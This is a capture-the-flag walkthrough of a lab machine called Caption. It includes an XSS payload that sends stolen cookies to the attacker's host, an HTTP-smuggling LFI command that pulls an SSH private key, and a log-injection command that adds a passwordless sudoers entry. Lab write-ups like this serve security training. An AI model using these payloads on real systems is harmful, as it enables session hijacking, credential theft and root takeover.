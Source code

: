 Walkthrough of Caption (Dec-27-2024)
(Post the unintenional route fix, I skip all the uneeded things I did)

We start of by running an nmap scan on `10.10.11.33`. The scan shows port 8080 open. Navigating on caption.htb:8080, we see a GitBucket service, and we are able to access the commits made by root.
On one of the commits, we can see hard-coded credentials for the user `margo`. Going back to the main website on caption.htb, we can log in with those credentials.

#Getting the admin cookie

The exploit is on the /firewalls page. I used Burspuite to execute it. We start of by fuzzing for potential headers, and we found that the header X-Forwarded-Host returns a different response, thus making it
vulenrable. Upon testing for XSS, we find out that it is vulnerable to it. The exploit is found at the `utm_source?url=...` that we can see in the Burpsuite response. If we open a Python HTTP Server, we see that
it successfully reaches back to us, so now we can craft a payload that returns the admin cookie.

This is the payload.js:
```js
async function getData() {
        var string = document.cookie;
        var encodedString = btoa(string);
        var url = 'http://yourip/hello?str=' + encodedString
        fetch(url).then(function(response) {
                return;
        }).catch(function(err) {
                return;
        });
}

getData();
```

Then we do `cat payload.js | base64 | tr -d '\n'; echo` to convert it to base64, and it should be something like that:
```
YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjM3L2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK
```

The exploit should look something like this:
```
X-FORWARDED-HOST: "></script><script>eval(atob(/YXN5bmMgZnVuY3Rpb24gZ2V0RGF0YSgpIHsKCXZhciBzdHJpbmcgPSBkb2N1bWVudC5jb29raWU7Cgl2YXIgZW5jb2RlZFN0cmluZyA9IGJ0b2Eoc3RyaW5nKTsKCXZhciB1cmwgPSAnaHR0cDovLzEwLjEwLjE2LjYxOjgwL2hlbGxvP3N0cj0nICsgZW5jb2RlZFN0cmluZwoJZmV0Y2godXJsKS50aGVuKGZ1bmN0aW9uKHJlc3BvbnNlKSB7CgkJcmV0dXJuOwoJfSkuY2F0Y2goZnVuY3Rpb24oZXJyKSB7CgkJcmV0dXJuOwoJfSk7Cn0KCmdldERhdGEoKTsK/.source));</script><script src="
```
If we start a local HTTP Server and refresh the page a couple of times, we get the admin cookie in base64 format and to decode it we run `echo "admin cookie" | base64 -d`

#HTTP smuggling

Logs are still not accessible, but it is hinted that we can perform HTTP smuggling in order to access it.
I used a Python tool called `h2csmuggler`. In the server, there is a .cpr directory. This directory holds an LFI exploit, and the paylod is as follows:
```
python3 h2csmuggler.py -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM1MjE4NzUyfQ.d4-wtGXYkoY69q2ZsDfG0u5asuW35hH6d-rLuRW69Y0" -X GET -x http://caption.htb/ http://caption.htb/download?url=http://127.0.0.1:3923/.cpr/%252Fhome%252Fmargo%252F.ssh%252Fid_ecdsa
```
We can use this to download the `id_ecdsa` private key in order to log into margo with SSH.
```
chmod 600 id_ecdsa
ssh -i id_ecdsa margo@caption.htb
```
Now we can grab the user flag.

#Escalating to root

If we check on the GitBucket service again, we see a LogService repo, and if we check inside server.go we see a block of code that hints at command injection. The server executes as root logs. If we do
`ps aux | grep server.gp` we can see it's executed as root. With the help of our powerful tool ChatGPT and a couple other fellow users, I was able to craft the exploit to get root.
Below are the steps.
In the host PC:

```
cd /tmp
touch client.py
touch log_service.thrift
```
(sudo apt install thrift-compiler and also make a virtual env in python and install any needed packages)
client.py:
```py
import sys
sys.path.append('/tmp/gen-py')

from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService

# Create a connection to the Thrift service
transport = TSocket.TSocket("127.0.0.1", 9090)
transport = TTransport.TBufferedTransport(transport)
protocol = TBinaryProtocol.TBinaryProtocol(transport)
client = LogService.Client(protocol)

# Open the connection
transport.open()

# Call the vulnerable function
try:
    result = client.ReadLogFile("/tmp/malicious.log")
    print("Response from server:", result)
except Exception as e:
    print("Error:", e)

# Close the connection
transport.close()
```
log_service.thrift
```
namespace go log_service
namespace py log_service
     
service LogService {
    string ReadLogFile(1: string filePath)
}
```
In margo's /tmp directory inside a file called `malicious.log`:
`127.0.0.1, "user-agent":"Mozilla'; echo 'margo ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers;#"`
That is then executed by the Python script. The log file adds the user `margo` to the /etc/sudoers file with no password, so now `margo` can do `sudo su` without
a password. Doing this switches the user to root, and then we can get the root flag.

Personal note: search for tools, in this case there was a tool `h2csmuggler` that another user told me I could take advantage of instead of manually doing the HTTP smuggling in Burpsuite.
